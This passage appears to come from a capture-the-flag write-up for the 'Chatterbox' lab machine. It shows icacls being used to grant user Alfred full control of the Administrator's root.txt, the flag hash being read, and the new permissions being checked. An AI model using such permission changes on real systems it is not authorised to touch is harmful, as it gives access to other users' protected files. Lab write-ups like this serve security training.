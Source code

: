 ```bash
icacls root.txt /grant Alfred:F
```

```txt
C:\Users\Administrator\Desktop>icacls root.txt /grant Alfred:F
icacls root.txt /grant Alfred:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files
```

```cmd
type root.txt
# flag
ac32076116038db0db642af110e1dbd7
```

![[Chatterbox-08.png]]

If we check again, we will find alfred has been added permissions.

```bash
icacls root.txt
```

```txt

C:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Alfred:(F)
         CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files

```